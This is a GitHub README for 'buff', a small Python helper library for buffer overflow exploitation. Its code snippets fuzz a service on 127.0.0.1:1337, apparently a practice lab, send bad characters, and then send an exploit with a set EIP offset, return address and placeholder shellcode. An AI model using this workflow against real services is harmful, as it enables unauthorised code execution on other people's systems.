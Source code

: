 # buff
A simple BOF library I wrote under an hour to help me automate with BOF attack.
It comes with fuzzer and a generic method to generate exploit easily.

# Usage

## Fuzzer
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "OVERFLOW0 ")
runner.fuzz()
```

## Sending Bad Characters
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "OVERFLOW0 ")

runner.setBufferSize(2400)
runner.setEipOffset(1978)
runner.sendBadChars()
```

## Sending Exploit
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "OVERFLOW0 ")

# Set Eip offset
runner.setEipOffset(1978)

# Send real exploit
eip_address = "\xaf\x11\x50\x62"
runner.setEipAddress(eip_address)

exploit = ("\xdb\xde.....")
runner.setExploit(exploit)

# set padding
runner.setPaddingSize(16)

runner.sendExploit()
```
